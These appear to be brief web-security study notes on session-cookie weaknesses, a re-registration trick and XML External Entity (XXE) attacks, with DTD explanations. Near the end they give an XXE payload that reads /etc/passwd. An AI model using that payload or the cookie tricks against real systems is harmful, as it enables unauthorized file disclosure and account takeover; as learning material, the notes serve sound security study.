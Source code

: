 
### Authentication
- Cookie is used to maintain the authentication state of the stateless server.
- session cookie containing predictable value so that it can be created for other user
- try space before the username to check if re-registration bug is present
- 

### XXE (XML External Entity)
#### Definition
XML: platorm independent, programming independent
Validation using DTD(Document Type Definition) and schema
e.g.

`<? xml version="1.0" encoding="utf-8" ?>
<mail>
</mail>
`

filename: note.dtd 
```
    <!DOCTYPE note [ <!ELEMENT note (to, from, heading, body)> <! ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)>] <!ENTITY greeting "hello world"> >
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

So now let's understand how that DTD validates the XML. Here's what all those terms used in note.dtd mean

    !DOCTYPE note -  Defines a root element of the document named note
    !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
    !ELEMENT to - Defines the to element to be of type "#PCDATA"
    !ENTITY greeting-  create the new entity

    NOTE: #PCDATA means parseable character data.


____________

The below payload gives the content of the file back to user from password file
```
<? xml version="1.0" ?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read; </root>

<? xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY name 'feast'>]>
<root>&name; </root>
```
